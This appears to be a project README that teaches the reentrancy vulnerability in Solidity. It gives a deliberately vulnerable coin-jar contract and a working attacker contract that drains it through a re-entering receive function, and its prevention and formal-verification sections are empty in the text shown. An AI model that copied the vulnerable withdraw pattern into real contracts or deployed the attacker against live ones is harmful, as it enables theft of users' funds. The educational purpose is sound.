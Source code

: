 # Demonstrating the reentrancy vulnerability of smart contracts

The objective of this project is two folds.
The one is to demonstrate the reentrancy vulnerability of smart contract, and the second is to systematically detect a potential vulnerability of a solidity code through formal verification.
The solidity compiler solc has already equipped rich formal verification features due to model checkers and SMT solvers, but in order to carry out it for the reentrancy issue, a programmer has to be aware of such potential problems and explicitly put assertions in a source code, that surely requires skills for secure programming.  For this project, we don't suppose that programmers have such skills, and I am going to offer a prototypical solution for them, so that they get a warning of a presence of potential reentrancy vulnerability in their code wihtout any prerequisite secure programming knowdledge.

The rest of this document is organized as follows.  We first review what the reentrancy problem is.  Then secondly, we are going to see a running example of a vulnerable contract and an attacker contract.  Thirdly, we see a couple of security tips to prevent the problem, and forthly, we apply formal verification to find that our contract is indeed vulnerable, where we also go through a minimal background of formal verification.

The full source codes for this project is published on github.

# Reentrancy

The reentrancy is a cause of security problem which leads to a massive finnancial loss.
As the name suggests, it exploits a function whose execution leads to another execution of itself.  Let's take a look at a running example of a vulnerable solidity code.

## Vulnerable smart contract: Coin jar

The following code is a simple smart contract implmenting a coin jar.
```
// SPDX-License-Identifier: CC-BY-4.0
pragma solidity >=0.6.12 <0.9.0;

contract Jar {

    mapping(address=>uint) public balance;

    constructor() payable {

    }

    function deposit() external payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() external {
        require(balance[msg.sender] != 0, "zero balance");
        (bool s,) = msg.sender.call{ value: balance[msg.sender] }("");
        require(s, "In Jar.withdrow(), call() failed.");
        balance[msg.sender] = 0;
    }
}
```
It has two external functions, <code>deposit</code> and <code>withdraw</code>, which are respectively to deposit crypto currency to this jar contract and to withdraw one's deposit.  The state variable <code>balance</code> records which contract address has how much deposit, and it is increased as a deposit is made via the <code>deposit</code> function.  The function <code>withdraw</code> is used to withdraw all the asset which one has deposited so far.  It first checks that the balance is non-zero, send the deposit to the original asset owner (i.e. <code>msg.sender</code>), and then in case of the transfer is successful the balance is reset to zero.

This smart contract has a security problem due to the use of the <code>call</code> function.  Alrhough the call message is the null string (i.e. <code>""</code>), this invokes a payable function in case <code>msg.sender</code> is a smart contract, and the content of the payable function is in general unkonwn and hence arbitrary.

We are going to see that we can create a malicious contract which can steal money from the Jar contract by repeatedly calling the <code>withdraw</code> function of the Jar contract; that is why this vulnerability is called reentrancy.

## Attacking a vulnerable contract
The following smart contract is a successful attacker.
```
// SPDX-License-Identifier: CC-BY-4.0
pragma solidity >=0.6.12 <0.9.0;

interface IJar {
    function deposit() external payable;
    function withdraw() external;
}

contract Attacker {

    IJar public jar;
    address public owner;

    constructor(address _jar) payable {
        jar = IJar(_jar);
        owner = msg.sender;
    }

    function deposit() public {
        jar.deposit{ value: 1 ether }();
    }

    function attack() public {
        jar.withdraw();
    }

    receive() external payable {
        if (address(jar).balance >= 1 ether) {
            jar.withdraw();
        }
    }

    function withdraw() public {
        require (msg.sender == owner);
        (bool s, ) = owner.call{ value: address(this).balance}("");
        require (s);
    }
}
```
The definition of <code>IJar</code> stands for the interface to <code>Jar</code>.  This <code>Attacker</code> contract should be deployed with an argument the address of the target contract.  By <code>deposit</code>, this attacker contract makes a deposit in the target <code>Jar</code> contract.  Assuming we have made 1 ether of deposit, the <code>attack</code> funtion starts the main business of this attacker contract.  It calls <code>withdraw</code> function of the <code>Jar</code>, then the <code>Jar</code> contract sends 1 ether, the exact deposit amount, to the <code>Attacker</code> contract by means of the <code>call</code> function.  This <code>call</code> function invokes the <code>receive</code> function of the attacker contract, which again withdraw money from the <code>Jar</code> contract as long as the <code>Jar</code> contract owns at least 1 ether.  Reentering the <code>withdraw</code> function of the <code>Jar</code> contract, the balance of the attacker is still 1 ether, and hence it sends 1 ether to the attacker.  This process goes on until the asset of <code>Jar</code> subseeds 1 ether, namely, <code>Jar</code> loses nearly all its asset.

The following diagram illustrates the scenario.

![reentrancy](https://github.com/miyamok/reentrancy/assets/58558301/30b364fb-612b-4a9e-aeb1-bdc484f2db43)

# Secure programming to prevent reentrancy


# Formal verification
